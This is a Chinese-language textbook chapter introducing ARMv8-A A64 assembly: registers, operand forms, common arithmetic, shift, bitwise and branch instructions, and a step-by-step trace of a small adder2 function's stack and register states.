# 第十章：ARM 汇编


本章中，我们将介绍 ARM 版本 8 应用程序配置（ARMv8-A）架构的 A64 指令集（ISA），这是当前所有 Linux 操作系统 ARM 计算机上使用的最新 ARM ISA。回想一下，指令集架构（或 ISA；见第五章）定义了机器级程序的一组指令和二进制编码。要运行本章中的示例，你需要一台安装了 64 位操作系统的 ARMv8-A 处理器的计算机。本章中的示例使用的是运行 64 位 Ubuntu Mate 操作系统的树莓派 3B+。请注意，自 2016 年以来发布的每一款树莓派都可以使用 A64 ISA。然而，树莓派操作系统（默认的树莓派操作系统）截至目前仍然是 32 位的。

你可以通过运行`uname -p`命令确认你的系统是否安装了 64 位操作系统（OS）。拥有 64 位操作系统的系统将输出以下内容：

```
$ uname -p

aarch64
```

虽然可以使用 ARM 的 GNU 工具链交叉编译工具在 Intel 机器上*构建*ARM 二进制文件，^(1) 但无法直接在 x86 系统上*运行*ARM 二进制文件。想要在自己的笔记本电脑上直接学习 ARM 汇编的读者，可以尝试探索 QEMU，^(2) 它可以*模拟*一个 ARM 系统。模拟器不同于虚拟机，因为它们还会模拟另一个系统的硬件。

另一个选择是使用亚马逊最近发布的 EC2 A1 实例。^(3) 每个实例为用户提供一个 64 位 Graviton 处理器，遵循 ARMv8-A 规范。

然而，请记住，编译器生成的特定汇编指令会受到操作系统和精确机器架构的高度影响。因此，在 AWS 实例或通过 QEMU 仿真生成的汇编可能与本章中展示的示例略有不同。

RISC 与 ARM 处理器

多年来，复杂指令集计算机（CISC）架构主导了个人计算和服务器市场。CISC 架构的常见例子包括 Intel 和 AMD 处理器。然而，由于移动计算领域的需求，精简指令集计算机（RISC）架构在过去十年中逐渐获得了动力。ARM（即 Acorn RISC 机器）是 RISC 架构的一个例子，此外还有 RISC-V 和 MIPS。由于其处理器的能效，RISC 架构特别适合移动计算，从而延长电池寿命。近年来，ARM 和其他 RISC 处理器开始在服务器和高性能计算（HPC）市场取得进展。例如，日本的 Fugaku 超级计算机（截至 2020 年为全球最快）就使用了 ARM 处理器。

### 9.1 深入汇编：基础知识

为了首次接触汇编，我们修改了第六章中的`adder`函数，简化了其行为。修改后的函数（`adder2`）如下所示：

```
#include <stdio.h>

//adds two to an integer and returns the result

int adder2(int a) {

    return a + 2;

}

 int main(){

    int x = 40;

    x = adder2(x);

    printf("x is: %d\n", x);

    return 0;

}
```

要编译这段代码，请使用以下命令：

```
$ gcc -o adder adder.c
```

接下来，让我们使用`objdump`命令查看这段代码的相应汇编：

```
$ objdump -d adder > output

$ less output
```

在查看文件`output`时，使用`less`并输入/adder 来搜索与 adder2 相关的代码片段。与`adder`相关的部分应该看起来类似于以下内容：

```
0000000000000724 <adder2>:

 724:   d10043ff        sub     sp, sp, #0x10

 728:   b9000fe0        str     w0, [sp, #12]

 72c:   b9400fe0        ldr     w0, [sp, #12]

 730:   11000800        add     w0, w0, #0x2

 734:   910043ff        add     sp, sp, #0x10

 738:   d65f03c0        ret
```

不用担心如果你现在还不完全理解发生了什么。我们将在未来的章节中更详细地介绍汇编。现在，让我们研究这些单个指令的结构。

前面示例中的每一行包含了程序内存中指令的 64 位地址（为了节省空间，仅缩写为最低三位数字）、与指令对应的字节，以及指令本身的明文表示。例如，`d10043ff`是指令`sub sp, sp, #0x10`的机器码表示，这条指令出现在代码内存地址`0x724`。注意，`0x724`是与`sub sp, sp #0x10`指令相关的完整 64 位地址的缩写；`objdump`省略了前导零，以提高可读性。

需要注意的是，一行 C 代码通常会翻译成多条汇编指令。操作`a + 2`由代码内存地址`0x728`到`0x730`的三条指令表示：`str w0, [sp, #12]`，`ldr w0, [sp, #12]`和`add w0, w0, #0x2`。

**警告 你的汇编代码可能看起来不同！**

如果你在和我们一起编译代码，可能会注意到你的一些汇编示例看起来有所不同。编译器输出的精确汇编指令依赖于生成编译器的版本、精确的架构以及底层操作系统。我们本章中的大部分汇编示例是在运行 64 位 Ubuntu Mate 操作系统的 Raspberry Pi 3B+上使用 GCC 生成的。如果你使用的是不同的操作系统、不同的编译器，或者不同的树莓派或单板计算机，你的汇编输出可能会有所不同。

在接下来的示例中，我们没有使用任何优化标志。例如，我们使用命令`gcc -o example example.c`来编译任何示例文件（例如`example.c`）。因此，接下来的示例中会有许多看似冗余的指令。记住，编译器并不“聪明”——它仅按照一系列规则将人类可读的代码转换为机器语言。在这个转换过程中，出现一些冗余是很常见的现象。优化编译器在优化过程中会移除这些冗余，相关内容将在第十二章中讨论。

#### 9.1.1 寄存器

回想一下，*寄存器*是一个字长的存储单元，直接位于 CPU 上。ARMv8 CPU 共有 31 个寄存器用于存储通用的 64 位数据：`x0`到`x30`。尽管程序可以将寄存器的内容解释为整数或地址，但寄存器本身并不做区分。程序可以读写所有 31 个寄存器。

ARMv8-A ISA 还指定了特殊用途寄存器。值得注意的前两个是*栈指针*寄存器(`sp`)和*程序计数器*寄存器(`pc`)。编译器保留`sp`寄存器以维护程序栈的布局。`pc`寄存器指向 CPU 即将执行的下一条指令；与其他寄存器不同，程序不能直接写入`pc`寄存器。接下来，*零寄存器* `zr` 永久存储值 0，仅作为源寄存器有用。

#### 9.1.2 高级寄存器表示法

由于 ARMv8-A 是 32 位 ARMv7-A 架构的扩展，A64 ISA 提供了访问每个通用寄存器的低 32 位（或`w0`到`w30`）的机制。图 9-1 展示了寄存器`x0`的示例布局。如果 32 位数据存储在组件寄存器`w0`中，则寄存器的高 32 位变为不可访问并被清零。



*图 9-1：寄存器%x0 的组件寄存器布局*

**警告 编译器根据类型可能会选择组件寄存器**

在阅读汇编代码时，请记住编译器通常在处理 64 位值（例如指针或`long`类型）时使用 64 位寄存器，并在处理 32 位类型（例如`int`）时使用 32 位组件寄存器。在 A64 中，经常看到 32 位组件寄存器与完整的 64 位寄存器混用。例如，在前述的`adder2`函数中，编译器使用组件寄存器`w0`而不是`x0`，因为`int`类型在 64 位系统上通常占用 32 位（四字节）空间。如果`adder2`函数有一个`long`参数而不是`int`参数，编译器将会将`a`存储在寄存器`x0`而不是组件寄存器`w0`中。

对于之前熟悉 A32 ISA 的读者，重要的是注意 A32 ISA 中的 32 位通用寄存器`r0`到`r12`与 A64 组件寄存器`w0`到`w12`的映射关系。A64 ISA 提供的寄存器数量是 A32 的两倍以上。

#### 9.1.3 指令结构

每条指令由一个操作码（或*opcode*）指定其功能，以及一个或多个*操作数*指示指令如何执行。对于大多数 A64 指令，通常使用以下格式：

```
<opcode> <D>, <O1>, <O2>
```

其中<opcode>是操作码，<D>是目标寄存器，<O1>是第一个操作数，<O2>是第二个操作数。例如，指令`add w0, w0, #0x2`具有操作码`add`，目标寄存器为`w0`，操作数为`w0`和`#0x2`。操作数有多种类型：

+   *常量（字面值）*的值前面带有`#`符号。例如，在指令`add w0, w0, #0x2`中，操作数`#0x2`是一个字面值，对应十六进制值 0x2。

+   *寄存器*形式指的是单个寄存器。指令`add sp, sp, #0x10`使用堆栈指针寄存器`sp`来指定目标寄存器，并作为`add`指令所需的两个操作数中的第一个。

+   *内存*形式对应主内存（RAM）中的某个值，通常用于地址查找。内存地址形式可以包含寄存器和常量值的组合。例如，在指令`str w0, [sp, #12]`中，操作数`[sp, #12]`就是一种内存形式。它可以大致翻译为“将 12 加到寄存器`sp`中的值上，然后对相应地址进行内存查找。”如果这听起来像是指针解引用，那是因为它就是这样！

#### 9.1.4 操作数示例

解释操作数的最佳方式是通过一个快速示例。假设内存中包含以下值：

| **地址** | **值** |
| --- | --- |
| 0x804 | 0xCA |
| 0x808 | 0xFD |
| 0x80c | 0x12 |
| 0x810 | 0x1E |

假设以下寄存器包含这些值：

| **寄存器** | **值** |
| --- | --- |
| `x0` | 0x804 |
| `x1` | 0xC |
| `x2` | 0x2 |
| `w3` | 0x4 |

然后，表 9-1 中的操作数会计算出其中显示的值。表格的每一行将操作数与其形式（例如，常量、寄存器、内存）、如何翻译以及其值进行匹配。

**表 9-1：** 操作数示例

| **操作数** | **形式** | **翻译** | **值** |
| --- | --- | --- | --- |
| `x0` | 寄存器 | `x0` | 0x804 |
| `[x0]` | 内存 | *(0x804) | 0xCA |
| `#0x804` | 常量 | 0x804 | 0x804 |
| `[x0, #8]` | 内存 | *(`x0` + 8) 或 *(0x80c) | 0x12 |
| `[x0, x1]` | 内存 | *(`x0` + `x1`) 或 *(0x810) | 0x1E |
| `[x0, w3, SXTW]` | （符号扩展）内存 | *(`x0` + 符号扩展(`w3`)) 或 *(0x808) | 0xFD |
| `[x0, x2, LSL, #2]` | 缩放内存 | *(`x0` + (`x2 ≪ 2`)) 或 *(0x80c) | 0x12 |
| `[x0, w3, SXTW, #1]` | （符号扩展）缩放内存 | *(`x0` + 符号扩展(`w3 ≪ 1`)) 或 *(0x80c) | 0x12 |

在表 9-1 中，符号`x0`表示存储在 64 位寄存器`x0`中的值，而`w3`表示存储在 32 位寄存器`w3`中的值。操作数`[x0]`表示应将`x0`中的值视为地址，并对该地址进行解引用（查找）。因此，操作数`[x0]`对应于*(0x804)或值 0xCA。32 位寄存器上的操作可以与 64 位寄存器结合使用符号扩展字（`SXTW`）指令。因此，`[x0, w3, SXTW]`在将`w3`符号扩展为 64 位值后，将其加到`x0`上并进行内存查找。最后，缩放内存类型通过使用左移来计算偏移量。

在继续之前有几点重要说明。虽然表 9-1 展示了许多有效的操作数形式，但并非所有形式在所有情况下都可以互换使用。

具体而言：

+   数据不能直接读取或写入内存；相反，ARM 遵循加载/存储模型，需要在寄存器中操作数据。因此，数据必须先转移到寄存器中进行操作，操作完成后再转移回内存。

+   指令的目标组件必须始终是寄存器。

表 9-1 作为参考，但理解关键操作数形式将帮助读者提高解析汇编语言的速度。

### 9.2 常见指令

在这一节中，我们讨论了几条常见的 ARM 汇编指令。表 9-2 列出了 ARM 汇编中最基础的指令。

**表 9-2：** 最常见的指令

| **指令** | **翻译** |  |
| --- | --- | --- |
| `ldr D, [addr]` | D = *(addr) | （将内存中的值加载到寄存器 D 中） |
| `str S, [addr]` | *(addr) = S | （将 S 存储到内存位置*(addr)） |
| `mov D, S` | D = S | （将 S 的值复制到 D 中） |
| `add D, O1, O2` | D = O1 + O2 | （将 O1 加到 O2 并将结果存储到 D 中） |
| `sub D, O1, O2` | D = O1 – O2 | （将 O2 从 O1 中减去并将结果存储到 D 中） |

因此，指令的顺序

```
str     w0, [sp, #12]

ldr     w0, [sp, #12]

add     w0, w0, #0x2
```

转换为：

+   将寄存器`w0`中的值存储到由`sp` + 12 指定的*内存*位置（或`*(sp + 12)`）。

+   从内存位置`sp` + 12（或`*(sp + 12)`）加载值到寄存器`w0`中。

+   将值 0x2 加到寄存器`w0`，并将结果存储回寄存器`w0`（或`w0` = `w0` + 0x2）。

表 9-2 中显示的`add`和`sub`指令也有助于维护程序栈的组织（即*调用栈*）。回想一下，*栈指针*（`sp`）是编译器为调用栈管理保留的。从我们之前在“程序内存和作用域”中关于程序内存的讨论中回忆，调用栈通常存储局部变量和参数，并帮助程序追踪自己的执行（参见图 9-2）。在 ARM 系统中，执行栈朝着*较低*的地址增长。像所有栈数据结构一样，操作发生在调用栈的“顶部”；因此，`sp`“指向”栈的顶部，它的值是栈顶部的地址。



*图 9-2：程序地址空间的各个部分*

表 9-3 中显示的`ldp`和`stp`指令有助于移动多个内存位置，通常是在程序栈上或栈外。如表 9-3 所示，寄存器`x0`保存一个内存地址。

**表 9-3：** 一些访问多个内存位置的指令

| **指令** | **翻译** |
| --- | --- |
| `ldp D1, D2, [x0]` | D1 = *(x0), D2 = *(x0+8)（加载 x0 处的值， |
|  | 将 X0+8 的值分别加载到寄存器 D1 和 D2 中） |
| `ldp D1, D2, [x0, #0x10]!` | x0 = x0 + 0x10，然后设置 D1 = *(x0)，D2 = *(x0+8) |
| `ldp D1, D2, [x0], #0x10` | D1 = *(x0), D2 = *(x0+8)，然后设置 x0 = x0 + 0x10 |
| `stp S1, S2, [x0]` | *(x0) = S1, *(x0+8) = S2 (将 S1 和 S2 存储到 |
|  | 存储位置 *(x0) 和 *(x0+8)，分别为 |
| `stp S1, S2, [x0, #-16]!` | 设置 x0 = x0 - 16，然后存储 *(x0) = S1, *(x0+8) = S2 |
| `stp S1, S2, [x0], #-16` | 存储 *(x0) = S1, *(x0+8) = S2，然后设置 x0 = x0 - 16 |

简而言之，`ldp` 指令从寄存器 `x0` 所持有的内存位置及该内存位置偏移 8 字节（即 `x0`+0x8）处加载一对值到目标寄存器 D1 和 D2 中。与此同时，`stp` 指令将源寄存器 S1 和 S2 中的一对值存储到寄存器 `x0` 所持有的内存位置及该地址偏移 8 字节（即 `x0`+0x8）处。请注意，这里假设寄存器中的值是 64 位数。如果使用的是 32 位寄存器，则内存偏移会变为 `x0` 和 `x0`+0x4。

`ldp` 和 `stp` 指令还有两种特殊形式，可以同时更新 `x0`。例如，指令 `stp S1, S2, [x0, #-16]!` 表示应该*首先*从 `x0` 中减去 16 字节，然后才将 S1 和 S2 存储到偏移量 `[x0]` 和 `[x0+8]` 处。相比之下，指令 `ldp D1, D2, [x0], #0x10` 表示应该首先将偏移量 `[x0]` 和 `[x0+8]` 处的值存储到目标寄存器 D1 和 D2 中，*然后*再将 `x0` 增加 16 字节。这些特殊形式通常用于具有多个函数调用的函数的开始和结束部分，稍后我们会看到这一点。

#### 9.2.1 综合实例：一个更具体的例子

让我们更详细地看看 `adder2` 函数

```
//adds two to an integer and returns the result

int adder2(int a) {

    return a + 2;

}
```

以及其对应的汇编代码：

```
0000000000000724 <adder2>:

 724:   d10043ff        sub     sp, sp, #0x10

 728:   b9000fe0        str     w0, [sp, #12]

 72c:   b9400fe0        ldr     w0, [sp, #12]

 730:   11000800        add     w0, w0, #0x2

 734:   910043ff        add     sp, sp, #0x10

 738:   d65f03c0        ret
```

汇编代码由一个 `sub` 指令、接着是 `str` 和 `ldr` 指令、两个 `add` 指令，最后是一个 `ret` 指令组成。为了理解 CPU 如何执行这一组指令，我们需要回顾程序内存的结构（参见 第 64 页中的“程序内存和作用域”）。回想一下，每当程序执行时，操作系统会为新程序分配地址空间（也叫做 *虚拟内存*）。虚拟内存和相关的进程概念在 第十三章中有更详细的讨论；现在，理解一个进程就是运行中的程序的抽象，虚拟内存就是为单个进程分配的内存就足够了。每个进程都有自己的一块内存区域，称为 *调用栈*。请记住，调用栈位于进程/虚拟内存中，而寄存器则位于 CPU 中。

图 9-3 显示了在执行 `adder2` 函数之前调用栈和寄存器的示例状态。



*图 9-3：执行栈在执行之前的状态*

请注意，栈是向*较低*地址生长的。`adder2`函数的参数（或`a`）通常由寄存器`x0`存储。由于`a`是`int`类型，它被存储在组件寄存器`w0`中，如图 9-3 所示。同样，由于`adder2`函数返回一个`int`，因此返回值使用组件寄存器`w0`而不是`x0`。

程序内存代码段中的指令地址已缩短为 0x724–0x738，以提高图示的可读性。同样，程序内存中调用栈段的地址已从 0xffffffffee40–0xffffffffee50 缩短为 0xe40–0xe50。实际上，调用栈地址通常出现在比代码段地址高得多的程序内存地址中。

请注意寄存器`sp`和`pc`的初始值：分别是 0xe50 和 0x724。`pc`寄存器（或程序计数器）指示下一条要执行的指令，地址 0x724 对应`adder2`函数中的第一条指令。下图中的左上箭头直观地表示当前正在执行的指令。



第一条指令（`sub sp, sp, #0x10`）将常数值 0x10 从栈指针中减去，并用新结果更新栈指针。由于栈指针包含栈顶的地址，这个操作*扩展*了栈，增加了 16 个字节。栈指针现在包含地址 0xe40，而程序计数器（`pc`）寄存器包含下一条要执行的指令的地址，即 0x728。



回想一下，`str`指令*存储*寄存器中的值到内存中。因此，下一条指令（`str w0, [sp, #12]`）将寄存器`w0`中的值（即`a`的值，0x28）存储到调用栈位置`sp` + 12，即 0xe4c。请注意，这条指令不会以任何方式修改`sp`寄存器的内容；它只是将一个值存储到调用栈中。一旦这条指令执行完毕，`pc`会推进到下一条指令的地址，即 0x72c。



接下来，执行`ldr w0, [sp, #12]`。回想一下，`ldr`指令*加载*内存中的一个值到寄存器中。通过执行该指令，CPU 将寄存器`w0`中的值替换为位于栈地址`sp` + 12 的值。尽管这看起来像是一个没有意义的操作（毕竟 0x28 被替换为 0x28），但它突出了一个约定，即编译器通常会将函数参数存储到调用栈中以备后用，然后根据需要将它们重新加载到寄存器中。再说一次，`sp`寄存器中存储的值不受`str`操作的影响。就程序而言，“栈顶”仍然是 0xe40。一旦`ldr`指令执行，`pc`会推进到地址 0x730。



随后执行 `add w0, w0, #0x2`。回想一下，`add` 指令的形式是 `add D, O1, O2`，并将 O1 + O2 的结果存储在目标寄存器 D 中。因此，`add w0, w0, #0x2` 将常量值 0x2 加到存储在 `w0` 中的值（0x28），结果是 0x2A 被存储在寄存器 `w0` 中。接着，`pc` 寄存器将前进到下一个指令地址 0x734。



下一条执行的指令是 `add sp, sp, #0x10`。此指令将 16 字节加到存储在 `sp` 中的地址上。由于栈是向低地址增长的，因此向栈指针添加 16 字节会导致栈“收缩”，并将 `sp` 恢复到其原始值 0xe50。然后，`pc` 寄存器将前进到 0x738。

回想一下，调用栈的目的是存储每个函数在更大程序上下文中执行时所使用的临时数据。根据约定，栈在函数调用开始时“增长”，并在函数结束时恢复到原始状态。因此，在函数开始时，通常会看到 `sub sp, sp, #v` 指令（其中 `v` 是某个常量值），函数结束时会看到 `add sp, sp, #v` 指令。



最后执行的指令是 `ret`。我们将在未来的章节中讨论 `ret` 的作用，特别是关于函数调用的部分，但目前只需要知道 `ret` 为从函数返回准备调用栈。根据约定，寄存器 `x0` 总是包含返回值（如果存在）。在这种情况下，由于 `adder2` 是 `int` 类型，返回值被存储在组件寄存器 `w0` 中，函数返回值为 0x2A，即 42。

### 9.3 算术指令

#### 9.3.1 常见的算术指令

A64 ISA 实现了多个与 ALU 执行的算术操作相对应的指令。表 9-4 列出了在阅读 ARM 汇编时可能遇到的几条算术指令。

**表 9-4：** 常见指令

| **指令** | **翻译** |
| --- | --- |
| `add D, O1, O2` | D = O1 + O2 |
| `sub D, O1, O2` | D = O1 – O2 |
| `neg D, O1` | D = –(O1) |

`add` 和 `sub` 指令分别对应加法和减法，并且需要两个操作数和一个目标寄存器。相比之下，`neg` 指令只需要一个操作数和一个目标寄存器。

表 9-4 中的三条指令也有 *进位* 形式，使得指令能够使用可选的进位条件标志 `C`。当无符号运算发生溢出时，单比特进位标志会被设置。我们将在接下来的章节中讨论其他条件控制标志，但在这里先描述进位标志，以介绍额外的算术指令。进位形式及其大致翻译见表 9-5。

**表 9-5：** 常见指令的进位形式

| **指令** | **翻译** |
| --- | --- |
| `adc D, O1, O2` | D = O1 + O2 + `C` |
| `sbc D, O1, O2` | D = O1 – O2 – `~C` |
| `ngc D, O1` | D = –(O1) – `~C` |

上述指令也有一个可选的`s`后缀。当使用`s`后缀时（例如`adds`），表示该算术操作会设置条件标志。

##### 9.3.1.1 乘法与除法

**表 9-6：** 常见的乘法和除法指令

| **指令** | **翻译** |
| --- | --- |
| `mul D, O1, O2` | D = O1 × O2 |
| `udiv D, O1, O2` | D = O1 / O2（32 位无符号） |
| `sdiv D, O1, O2` | D = O1 / O2（64 位有符号） |

最常见的乘法和除法指令见表 9-6。`mul`指令操作两个操作数，并将结果存储在目标 D 中。除法操作没有通用形式；`udiv`和`sdiv`指令分别操作 32 位和 64 位数据。注意，不能将 32 位寄存器与 64 位寄存器相乘。

此外，ARMv8-A 提供了复合形式的乘法，允许 CPU 在一条指令中执行更复杂的操作。这些指令见表 9-7。

**表 9-7：** 复合乘法指令

| **指令** | **翻译** |
| --- | --- |
| `madd D, O1, O2, O3` | D = O3 + (O1 × O2) |
| `msub D, O1, O2, O3` | D = O3 – (O1 × O2) |
| `mneg D, O1, O2` | D = –(O1 × S2) |

#### 9.3.2 位移指令

位移指令使编译器能够执行位移操作。乘法和除法指令通常需要较长时间执行。位移提供了编译器的快捷方式，用于乘数和除数是 2 的幂的情况。例如，计算`77 * 4`时，大多数编译器会将该操作转换为`77 ≪ 2`，以避免使用`mul`指令。同样地，计算`77 / 4`时，编译器通常会将该操作转换为`77 ≫ 2`，以避免使用`sdiv`指令。

请记住，左移和右移指令会根据目标是算术（有符号）移位还是逻辑（无符号）移位，翻译成不同的指令。

**表 9-8：** 位移指令

| **指令** | **翻译** | **算术或逻辑？** |
| --- | --- | --- |
| `lsl D, R, #v` | D = R `≪` v | 逻辑或算术 |
| `lsr D, R, #v` | D = R `≫` v | 逻辑 |
| `asr D, R, #v` | D = R `≫` v | 算术 |
| `ror D, R, #v` | D = R `≫>` v | 两者都不是（旋转） |

除了目标寄存器，每条移位指令需要两个操作数；一个通常是寄存器（用 R 表示），另一个是 6 位的移位值（v）。在 64 位系统上，移位值被编码为一个字节（因为移位超过 63 没有意义）。移位值 v 必须是常数或存储在一个组件寄存器中。

最后一条移位指令`ror`需要特别说明。`ror`指令*旋转*位数，将最高有效位替换为最低有效位。我们使用`≫>`符号来表示旋转移位指令。

**注意 不同版本的指令帮助我们在汇编级别区分类型**

在汇编级别，没有类型的概念。然而，回想一下，编译器可以根据代码级别存在的类型选择使用组件寄存器。类似地，回想一下，右移操作的执行方式取决于值是有符号还是无符号。在汇编级别，编译器使用不同的指令来区分逻辑移位和算术移位！

#### 9.3.3 按位指令

按位指令使得编译器能够对数据执行按位操作。编译器使用按位操作的一个方式是进行某些优化。例如，编译器可能选择用`77 & 3`代替开销更大的`sdiv`指令来实现 77 模 4。

表 9-9 列出了常见的按位指令，以及利用否定的复合按位指令。

**表 9-9：** 按位操作

| **指令** | **翻译** |
| --- | --- |
| `and D, O1, O2` | D = O1 `&` O2 |
| `orr D, O1, O2` | D = O1 `&#124;` O2 |
| `eor D, O1, O2` | D = O1 `^` O2 |
| `mvn D, O` | D = `~`O |
| `bic D, O1, O2` | D = O1 `& ~`O2 |
| `orn D, O1, O2` | D = O1 `&#124; ~`O2 |
| `eon D, O1, O2` | D = O1 `^ ~`O2 |

请记住，按位`not`与取反（`neg`）不同。`mvn`指令翻转操作数的位，但不加 1。要小心不要混淆这两条指令。

**警告 仅在你的 C 代码中需要时使用按位操作！**

阅读完本节后，可能会有冲动将你 C 代码中的常见算术操作替换为按位移位和其他操作。但这*不*推荐。大多数现代编译器足够智能，可以在合适的时候将简单的算术操作替换为按位操作，这样程序员就不需要这么做。一般来说，程序员应尽量优先考虑代码的可读性，避免过早优化。

### 9.4 条件控制和循环

本节涵盖了用于条件语句和循环的汇编指令（参见第 30 页的“条件语句和循环”）。回想一下，条件语句使得程序员可以根据条件表达式的结果修改程序执行。编译器将条件语句翻译为汇编指令，这些指令修改指令指针（`pc`），使其指向一个不是程序序列中下一个地址的地址。

#### 9.4.1 基础知识

##### 条件比较指令

比较指令执行算术操作，目的是引导程序的条件执行。表 9-10 列出了与条件控制相关的基本指令。

**表 9-10：** 条件控制指令

| **指令** | **翻译** |
| --- | --- |
| `cmp O1, O2` | 比较 O1 与 O2（计算 O1 - O2） |
| `tst O1, O2` | 计算 O1 `&` O2 |

`cmp` 指令比较两个操作数 O1 和 O2 的值。具体来说，它将 O2 从 O1 中减去。`tst` 指令执行按位与操作。通常会看到类似以下的指令：

```
tst x0, x0
```

在这个例子中，`x0` 与自身的按位与操作仅在 `x0` 为零时结果为零。换句话说，这是一个零值测试，等同于以下操作：

```
cmp x0, #0
```

与迄今为止介绍的算术指令不同，`cmp` 和 `tst` 不会修改目标寄存器。相反，这两条指令会修改一系列单比特值，这些值被称为*条件码标志*。例如，`cmp` 会根据 O1 – O2 的结果是正数（大于）、负数（小于）还是零（相等）来修改条件码标志。请记住，条件码值编码了 ALU 操作的信息（参见 第 261 页 的“ALU”部分）。条件码标志是 ARM 处理器状态（`PSTATE`）的一部分，取代了 ARMv7-A 系统中的当前程序状态寄存器（`CPSR`）。

**表 9-11：** 常见条件码标志

| **标志** | **翻译** |
| --- | --- |
| `Z` | 等于零（1: 是; 0: 否） |
| `N` | 负数（1: 是; 0: 否） |
| `V` | 发生了带符号溢出（1: 是; 0: 否） |
| `C` | 算术进位/无符号溢出已发生（1: 是; 0: 否） |

表 9-11 描述了用于条件码操作的常见标志。重新回顾 `cmp O1, O2` 指令：

+   如果 O1 和 O2 相等，则 `Z` 标志设置为 1。

+   如果 O1 小于 O2（O1 – O2 结果为负值），则 `N` 标志设置为 1。

+   如果操作 O1 – O2 结果为溢出，则 `V` 标志设置为 1（对于带符号比较有用）。

+   如果操作 O1 – O2 结果为算术进位操作（对于无符号比较有用），则 `C` 标志设置为 1。

虽然对条件码标志的深入讨论超出了本书的范围，但 `cmp` 和 `tst` 指令通过设置这些寄存器，使我们接下来要介绍的指令集（*分支* 指令）能够正确运行。

##### 分支指令

分支指令使程序的执行可以“跳转”到代码中的新位置。在我们迄今为止追踪的汇编程序中，`pc` 总是指向程序内存中的下一条指令。分支指令使得 `pc` 可以被设置为尚未见过的新指令（例如 `if` 语句的情况），或者是之前执行过的指令（例如循环中的情况）。

**表 9-12：** 常见分支指令

| **指令** | **描述** |
| --- | --- |
| `b addr L` | `pc` = addr |
| `br A` | `pc` = A |
| `cbz R, addr L` | 如果 R 等于 0，`pc` = addr（条件分支） |
| `cbnz R, addr L` | 如果 R 不等于 0，`pc` = addr（条件分支） |
| `b.c addr L` | 如果 c，`pc` = addr（条件分支） |

**直接分支指令** 表 9-12 列出了常见的分支指令集合；L 表示*符号标签*，它作为程序对象文件中的标识符。所有标签由一些字母和数字组成，后跟冒号。标签可以是*局部的*或*全局的*，取决于它在对象文件中的作用范围。函数标签通常是*全局的*，并通常由函数名和冒号组成。例如，`main:`（或`<main>:`）用于标记用户定义的`main`函数。相反，作用域为*局部*的标签前面会加一个句点。例如，`.L1:`是你可能会在`if`语句或循环中遇到的标签。

所有标签都有一个关联的地址（在表 9-12 中为`addr`）。当 CPU 执行`b`指令时，它会将`pc`寄存器设置为`addr`。`b`指令使程序计数器能够在当前地址的 128 MB 范围内进行跳转；编写汇编程序的程序员还可以通过使用`br`指令指定一个特定的地址来进行跳转。与`b`指令不同，`br`指令没有地址范围的限制。

有时，局部标签也会显示为从函数开始的偏移量。因此，一条地址距离`main`函数起始位置 28 字节的指令，可能会用标签`<main+28>`表示。例如，指令`b` `0x7d0 <main+28>`表示跳转到地址 0x7d0，该地址的关联标签为`<main+28>`，意味着它距离`main`函数的起始地址有 28 字节。执行该指令时，将`pc`设置为 0x7d0。

最后三条指令是*条件分支指令*。换句话说，只有在给定的条件评估为真时，程序计数器寄存器才会被设置为`addr`。`cbz`和`cbnz`指令除了地址外，还需要一个寄存器。在`cbz`的情况下，如果 R 为零，则执行分支并将`pc`设置为`addr`。在`cbnz`的情况下，如果 R 非零，则执行分支并将`pc`设置为`addr`。

最强大的条件分支指令是`b.c`指令，它使编译器或汇编程序员能够选择一个自定义后缀，表示进行分支的条件。

**条件分支指令后缀** 表 9-13 列出了常见的条件分支后缀（c）集合。与分支指令一起使用时，每条指令以字母`b`和一个点开始，表示它是一条分支指令。每条指令的后缀（c）表示分支的*条件*。分支指令后缀还决定了是否将数值比较解释为有符号或无符号。请注意，条件分支指令的范围比`b`指令要小得多（1 MB）。这些后缀也用于条件选择指令（`csel`），该指令将在下一节中介绍。

**表 9-13：** 条件跳转指令后缀（括号中为同义词）

| **有符号比较** | **无符号比较** | **描述** |
| --- | --- | --- |
| `eq` | `eq` | 如果相等（==）或者如果为零则跳转 |
| `ne` | `ne` | 如果不等于（!=）则跳转 |
| `mi` | `mi` | 如果为负数（负值）则跳转 |
| `pl` | `pl` | 如果非负（>= 0）则跳转 |
| `gt` | `hi` | 如果大于（更高）（>）则跳转 |
| `ge` | `cs` (`hs`) | 如果大于或等于（>=）则跳转 |
| `lt` | `lo` (`cc`) | 如果小于（<）则跳转 |
| `le` | `ls` | 如果小于或等于（<=）则跳转 |

##### `goto` 语句

在接下来的子节中，我们将研究汇编语言中的条件语句和循环，并将它们逆向转换回 C 语言。当将汇编代码的条件语句和循环翻译回 C 语言时，了解它们对应的 C 语言 `goto` 形式非常有用。`goto` 语句是 C 语言中的一种原语，它强制程序执行跳转到代码中的另一行。与 `goto` 语句相关的汇编指令是 `b`。

`goto` 语句由 `goto` 关键字组成，后面跟着一个 *goto 标签*，这是一种程序标签，表示执行应该继续到相应的标签位置。因此，`goto done` 意味着程序执行应该跳转到标记为 `done` 的行。C 语言中程序标签的其他例子包括前面在“switch 语句”中提到的 `switch` 语句标签，见 第 122 页。

以下代码清单展示了一个 `getSmallest` 函数，首先是用常规 C 代码编写的版本（第一部分），然后是它在 C 语言中的 `goto` 形式（第二部分）。`getSmallest` 函数比较两个整数（`x` 和 `y`）的值，并将较小的值赋给变量 `smallest`。

常规 C 版本

```
int getSmallest(int x, int y) {

    int smallest;

    if ( x > y ) { //if (conditional)

        smallest = y; //then statement

    }

    else {

        smallest = x; //else statement

    }

    return smallest;

}
```

`goto` 版本

```
int getSmallest(int x, int y) {

    int smallest;

    if (x <= y ) { //if (!conditional)

        goto else_statement;

    }

    smallest = y; //then statement

    goto done;

else_statement:

    smallest = x; //else statement

done:

    return smallest;

}
```

这个 `goto` 形式的函数可能看起来有些反直觉，但我们来讨论一下到底发生了什么。条件语句检查变量 `x` 是否小于或等于 `y`。

+   如果 `x` 小于或等于 `y`，程序将控制权转移到标记为 `else_statement` 的标签，该标签包含唯一语句 `smallest = x`。由于程序是线性执行的，接下来程序继续执行 `done` 标签下的代码，并返回 `smallest` 的值（即 `x`）。

+   如果 `x` 大于 `y`，则将 `smallest` 设置为 `y`。程序接着执行语句 `goto done`，将控制权转移到 `done` 标签，返回 `smallest` 的值（即 `y`）。

尽管 `goto` 语句在早期编程中很常见，但在现代代码中使用 `goto` 被认为是不好的实践，因为它降低了代码的整体可读性。实际上，计算机科学家艾兹格尔·代克斯特拉（Edsger Dijkstra）曾写过一篇著名的论文，批评使用 `goto` 语句，名为《Go To 语句的危害》^(4)。

